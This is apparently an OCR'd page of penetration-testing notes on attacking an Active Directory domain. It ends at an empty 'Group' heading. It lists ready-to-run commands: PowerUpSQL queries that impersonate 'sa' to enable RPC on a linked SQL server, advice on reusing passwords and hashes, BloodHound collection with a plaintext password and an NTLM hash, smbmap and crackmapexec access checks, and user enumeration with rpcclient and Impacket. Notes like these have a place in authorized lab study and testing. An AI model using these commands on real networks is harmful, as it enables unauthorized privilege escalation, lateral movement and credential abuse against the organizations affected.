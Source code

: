 ```sql

get-sqlquery -instance "cywebdb\sqlexpress" -query "execute as login ='sa'; exec sp_serveroption 'm3sqlw.m3c.local', 'rpc out', 'true'" (PowerUpSQL Query)

get-sqlquery -instance "cywebdb\sqlexpress" -query "execute as login ='sa'; exec (sp_serveroption 'm3sqlw.m3c.local', 'rpc out', 'true') at [m3sqlw.m3c.local]" (PowerUpSQL Open Query)
```
### Privilege Escalation is not necessary to be done immediately

DA or some specific domain users have admin privilege to current host

### Password/Hash reuse

Similar machines could share the same password/hash

SQL05 and SQL06

SQL05 and File05

## Domain Reconnaissance on Kali
### BloodHound
```bash
proxychains bloodhound-python -c ALL -u kevin -p 'Passw0rd' -d red.com -dc dc.red.com -ns 10.9.20.10 --dns-tcp
```
or
```bash
proxychains bloodhound-python3 -c ALL -u 'WEB05$@RED.COM' --hashes 00000000000000000000000000000000:d66f37fd3d677522959e5b4aeecafb78 -d COMPLYEDGE.COM  -ns 172.16.76.168 --dns-tcp (Extract NTLM from /etc/krb5cc.keytab)
```
### SMB Access
```bash
smbmap -H 10.9.20.10 -u kevin -p Passw0rd
```
### WinRM Access
```bash
crackmapexec winrm 10.9.20.10 -u kevin -p 'Password'
```
### SMB Signing
```bash
crackmapexec smb 10.9.20.10
```
### User

#### Via RPCClient
```bash
proxychains rpcclient -U red.com/kevin.gustavo%Passw0rd 10.9.20.10

enumdomusers

queryuser 0x3601
```
#### Via Impacket
```bash
proxychains python3 GetADUsers.py -all -k -no-pass -dc-ip 10.9.20.10 red.com/Administrator
```
### Group
